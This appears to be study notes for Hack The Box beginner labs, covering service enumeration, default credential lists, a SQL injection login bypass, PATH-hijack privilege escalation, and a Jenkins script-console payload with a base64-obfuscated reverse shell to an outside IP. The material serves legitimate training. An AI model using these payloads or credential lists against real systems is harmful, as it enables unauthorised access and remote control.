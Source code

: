 # HTB - Starting points

## Tier 0 - beginner tips

### Check what is behind port

```https://www.speedguide.net/port.php?port=135```

### FTP (21/20) 

Anonymous access (FTP code 230) - `anonymous:anonymous`

```bash
$ ftp <ip>
// Get - download file
```

### SMB (445)

```bash 
$ smbclient -L \\\\<ip>\\ -U Admin
$ smbclient \\\\<ip>\\<dir>
// Get - download file
```

$ at the end means that is an administrative share.

### RDP (3389)

```bash
$ xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:<ip>:<port>
```

### Web enumeration - Dir busting

```bash
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://<IP>
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://<IP> -x html,php
```

## Tier 1

### Common HTB passwords

```
admin:admin
guest:guest
user:user
root:root
administrator:password
```

### SQLi injection

Login page

```php
<?php
mysql_connect("localhost", "db_username", "db_password"); 
# Connection to the SQLDatabase.
mysql_select_db("users"); 
# Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in 
$result.if ($count==1){
    # Checks if there's at least 1 result, and if yes:
    $_SESSION['username'] =$username; 
    # Creates a session with the specified 
    $username.$_SESSION['password'] =$password; 
    # Creates a session with the specified 
    $password.header("location:home.php"); 
    # Redirect to homepage.
}
else { 
    # If there's no singular result of a user/pass combination:
    header("location:login.php");
    # No redirection, as the login failed in the case the $count variable is not equal to1, HTTP Response code 200 OK.
    }
    ?>
```

Common SQL query to logIn
```sql
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

Modified SQL query to bypass logging and obtain password
`admin'#` 
```sql
$sql="SELECT * FROM users WHERE username='$username'#' AND password='$password'";
```
### MySQL

Port - 3306 

MySQL cheatsheet - https://www.mysqltutorial.org/mysql-cheat-sheet.aspx

```bash
mysql -h <IP> -u root
```
### Check technologies on websites - plugin

https://www.wappalyzer.com/apps

### Adding DNS resolve 

```
/etc/hosts
```

### Magento default credentials

Passwords - 
>An Admin password must be seven or more characters long and include both letters andnumbers.

Bruteforce? - No
>By default, aftersix attempts the account is locked, and the user must wait a few minutes before tryingagain. Locked accounts can also be reset from the Admin.

```
admin admin123
admin root123
admin password1
admin administrator1
admin changeme1
admin password123
admin qwerty123
admin administrator123
admin changeme123
```

### Jenkins default credentials

```
admin:password
admin:admin
root:root
root:password
admin:admin1
admin:password1
root:password1
```

### How to pwn Jenkins

https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution 
https://github.com/gquere/pwn_jenkins 

Script console allow to type in an arbitrary Groovy script and execute it on the server. 

Script console access - http://jenkins_ip/script

Easy code execution via script console - apply specific command in base64:
```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,c2ggLWkgPiYgL2Rldi91ZHAvMTAuMTAuMTUuMTA4LzkwMDEgMD4mMQ==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
## Tier 2

### Web exploitation

Webshells - https://github.com/BlackArch/webshells 

Running terminal session via webshell

```
python3 -c'import pty;pty.spawn("/bin/bash")'
```

### Basic checking user privileges

```
find / -group bugtracker 2>/dev/null
sudo -l
id
```

### Checking file info

```
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```

### SUID exploitation

Run program, check the path of the command, try to switch usage of command to shell by adding modified executable with PATH to use by scripts:

```
cd \tmp\
echo "\bin\sh" > cat
chmod +x cat
export PATH=/tmp:$PATH
echo $PATH

//run executable from tmp 
```